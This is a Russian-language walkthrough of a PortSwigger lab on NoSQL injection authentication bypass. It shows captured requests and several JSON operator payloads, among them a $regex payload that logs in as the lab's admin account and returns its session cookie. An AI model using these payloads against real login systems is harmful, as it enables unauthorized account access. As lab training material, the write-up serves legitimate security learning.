


лаба https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication
#### обход аутентификации
задание:
войдите в приложение под именем пользователя. `administrator`

------

изучаю сайт и вижу два потенциальных запроса 

первый - это вход (по заданию нужно как - раз обойти авторизацию)


```http
POST /login HTTP/2
Host: 0aa6003e0444756e81374d8100130013.web-security-academy.net
Cookie: session=Lz7vpUwU9Kswc4UhgmGCvs3G0ysndnTV
Content-Length: 40
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0aa6003e0444756e81374d8100130013.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa6003e0444756e81374d8100130013.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"username":"wiener","password":"peter"}
```

второй это смена емайл 

```http
POST /my-account/change-email HTTP/2
Host: 0aa6003e0444756e81374d8100130013.web-security-academy.net
Cookie: session=H01yxMTZ4ZNhS6gBuIPahsHvQMj7lveJ
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0aa6003e0444756e81374d8100130013.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa6003e0444756e81374d8100130013.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru&csrf=sDZY5FlkELzknvAnXAxB0qd8twXd4LPa
```

и еще место с параметрами - выбор категории на сайте (наерно здесь и есть уяза )

```http
GET /filter?category=Tech+gifts HTTP/2
Host: 0aa6003e0444756e81374d8100130013.web-security-academy.net
Cookie: session=H01yxMTZ4ZNhS6gBuIPahsHvQMj7lveJ
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa6003e0444756e81374d8100130013.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

-----
поставил просто кавычку - вот она отразилась сразу тут




теперь можно пробовать выводить вот сюда данные!
например пароль админа

но по заданию нужно просто обойти аунтетификацию!

-----

пробую втупую обойти авторизацию
```json

{"username": {"username": "administrator"}, "password": {"$ne": null}}

{"username": {"$in": ["administrator", "root", "superadmin"]}, "password": {"$ne": ""}}

{"$or": [{"username": "administrator"}, {"password": "anything"}]}

{"username": "administrator", "password": {"$gt": ""}}

```
ничего не вышло

---------
а вот этот базовый запрос 
```json
{"username": {"$regex": "admin.*"}, "password": {"$ne": ""}}
```
выдал ответ 302 
```http
HTTP/2 302 Found
Location: /my-account?id=admin2721v2hh
Set-Cookie: session=WX76o1L9FUyXJCR1Knk4bZYjbb8DFPEF; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```


-------

открыл эту сессию в браузере 

WX76o1L9FUyXJCR1Knk4bZYjbb8DFPEF

и попал в админку - лаба решена




и стало ясно - почему мои первый попытки не сработали!

вот почему:
Your username is: admin2721v2hh

такой ник фиг угадаешь admin2721v2hh

-------

### выводы

1 - никакой абсолютно валидации нет 

даже простые кавычки - сразу "палили контору", что есть уязвимость